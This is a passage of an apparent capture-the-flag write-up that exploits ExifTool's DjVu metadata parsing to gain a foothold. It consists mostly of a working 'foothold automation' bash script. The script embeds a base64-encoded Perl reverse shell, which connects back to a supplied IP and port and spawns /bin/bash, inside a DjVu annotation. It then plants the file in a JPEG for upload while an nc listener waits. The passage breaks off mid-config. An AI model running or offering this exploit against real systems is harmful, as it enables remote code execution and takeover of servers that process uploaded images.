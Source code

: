 Then update regular image file with `djvu` file content.
```bash 
exiftool -config configfile '-HasselbladExif<=exploit.djvu' sator.jpeg
```

Start `nc` listener and upload image.

![](screenshots/reverse-shell.png)


### Scripts for foothold automation

For generating backdoor image file.
```bash
#!/bin/bash

IP=$1
PORT=$2
base64_revshell=$(echo "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in($PORT,inet_aton('$IP')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/bash -i');};" | base64 -w0)
payload='(metadata "\c${use MIME::Base64;eval(decode_base64('\'$base64_revshell\''))};")'
echo $payload > payload

bzz payload payload.bzz
rm payload

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
rm payload.bzz

cat >configfile <<EOL
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
```